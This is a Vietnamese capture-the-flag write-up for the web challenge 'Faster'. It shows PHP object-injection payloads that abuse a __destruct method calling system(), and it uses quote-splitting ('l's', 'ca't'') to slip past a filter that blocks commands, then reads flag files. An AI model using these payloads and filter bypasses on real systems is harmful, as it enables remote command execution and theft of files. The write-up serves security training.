

# Faster (Web)

> Description: Bạn có thể nhanh hơn throw Exception() không?

## Exploit

- Truy cập vào challenge, đầu tiên chương trình có một class là `exploit_me`, sau đó chương trình sẽ lấy parameter `payload` trong url, sau đó lọc qua các luật, nhằm tránh thực hiện các câu lệnh để có thể tìm flag, sau đó thì sẽ deserialize `payload` và thực thi

  

- Dựa vào class ở trên ta sẽ thử xem có thực hiện câu lệnh được không với `pwd`, và đang ở `/var/www/html`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "pwd";
    echo serialize($payload);
  ?>
  ```

  

  

- Sau đó ta sẽ kiểm tra root của machine, vì lệnh `ls` đã bị block, ta sẽ bypass: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-paths-and-forbidden-words. Thấy rằng có 2 file flag, ta sẽ kiểm tra cả 2 flag

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "l's' ../../..";
    echo serialize($payload);
  ?>
  ```

  

  

- File `dd810fc36330c200a_flag`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd="ca't' ../../../dd810fc36330c200a_flag";
    echo serialize($payload);
  ?>
  ```

  

  

- File `a8749209e3d652e_flag`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "ca't' ../../../a8749209e3d652e_flag";
    echo serialize($payload);
  ?>
  ```

  

  

> Flag: Wanna.One{Fast_detruct_is_tooooooooo_easy_for_you_!!!}